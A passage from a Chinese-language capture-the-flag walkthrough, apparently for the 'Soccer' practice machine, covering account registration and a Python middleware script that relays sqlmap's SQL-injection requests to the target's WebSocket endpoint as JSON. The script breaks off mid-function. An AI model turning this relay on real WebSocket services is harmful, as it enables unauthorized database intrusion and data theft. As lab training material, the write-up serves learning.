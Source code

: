 让我们注册并登录

![](img/a51f537963036c4e48e0fb17b5dc8424.png)

注册和登录后

17.在查看源代码时，我们知道这个字段是连接到 Web 套接字的

![](img/eb1f5218271150da04511dd62ec58cbd.png)

18.我们可以使用下面的 python 代码将请求从 sqlmap 定向到我们的本地主机

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
 data = '{"id":"%s"}' % message

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
```